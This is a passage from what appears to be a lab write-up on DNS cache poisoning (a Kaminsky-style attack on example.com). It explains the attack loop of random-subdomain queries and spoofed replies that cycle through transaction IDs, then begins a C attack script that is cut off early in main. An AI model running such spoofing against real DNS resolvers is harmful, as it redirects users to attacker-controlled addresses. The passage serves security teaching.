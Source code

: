 So, in an infinite loop, we first generate a random prefix and set the random domain name of the DNS request that will trigger the DNS local server to perform an iterative search to try to fetch the IP address for that random domain and invoke the `send_dns_request` function that will simply send that packet. We also set the random domain for the DNS spoofed reply both in the question and answer field, as mentioned, and invoke the `send_dns_response` function. This function loops through all the 16-bit transaction id values and in each iteration set the different `example.com` legitimate nameservers in the packet and send the two spoofed replies.

The final C script can be seen here:

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>

#define MAX_FILE_SIZE 1000000


/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address 
  struct  in_addr    iph_destip;   //Destination IP address 
};

void send_raw_packet(char * buffer, int pkt_size);
void send_dns_request( );
void send_dns_response( );

int main()
{
  srand(time(NULL));

  // Load the DNS request packet from file
  FILE * f_req = fopen("ip_req.bin", "rb");
  if (!f_req) {
     perror("Can't open 'ip_req.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // Load the first DNS response packet from file
  FILE * f_resp = fopen("ip_resp.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'ip_resp.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26]="abcdefghijklmnopqrstuvwxyz";

```